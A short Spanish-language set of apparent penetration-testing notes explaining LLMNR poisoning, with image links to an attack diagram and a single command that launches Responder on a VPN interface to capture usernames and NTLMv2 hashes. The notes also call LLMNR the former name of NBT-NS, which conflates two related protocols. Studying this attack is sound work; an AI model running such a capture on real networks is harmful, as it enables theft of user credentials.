 ### Qué es LLMNR?

- Se usa para identificat hosts cuando el DNS falla.
- Antes se conocía como NBT-NS
- El servicio utiliza el 'username' de un usuario y un hash NTLMv2 cuando responde.

# Explicación gráfica del vector de ataque

<img src="https://i.imgur.com/QQokhLx.png" />

***Iniciando Ataque***

```
python /usr/share/responder.py -I tun0 -rdw
```

<img src="https://i.imgur.com/ZKyYZR6.png" />
